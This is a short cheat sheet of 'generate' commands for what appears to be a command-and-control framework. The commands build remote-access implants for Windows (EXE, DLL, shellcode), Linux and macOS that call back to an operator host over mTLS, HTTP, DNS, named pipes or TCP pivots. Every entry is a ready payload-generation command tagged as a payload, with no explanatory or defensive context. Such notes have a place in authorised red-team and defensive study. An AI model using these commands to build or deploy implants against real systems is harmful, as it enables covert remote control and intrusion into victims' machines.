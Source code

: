 ## Generate Windows EXE with Named Pipe
#cat/PAYLOAD 
```
generate --named-pipe <pipe_name>
```

## Generate Windows EXE with TCP Pivot
#cat/PAYLOAD 
```
generate --tcp-pivot <lhost>:<lport>
```

## Generate Windows DLL with mTLS
#cat/PAYLOAD 
```
generate --format shared --mtls <lhost>
```

## Generate Windows Shellcode with mTLS
#cat/PAYLOAD 
```
generate --format shellcode --mtls <lhost>
```

## Generate Linux ELF with mTLS
#cat/PAYLOAD 
```
generate --os linux --mtls <lhost>
```

## Generate Linux ELF with HTTP
#cat/PAYLOAD 
```
generate --os linux --http <lhost>:<lport>
```

## Generate MacOS Mach-O with mTLS
#cat/PAYLOAD 
```
generate --os mac --mtls <lhost>
```

## Generate MacOS Mach-O with HTTP
#cat/PAYLOAD 
```
generate --os mac --http <lhost>:<lport>
```

## Generate with Multiple C2 Protocols
#cat/PAYLOAD 
```
generate --os linux --mtls <lhost>,<lhost2> --http <lhost>:<lport>,<lhost2>:<lport> --dns <lhost>
```
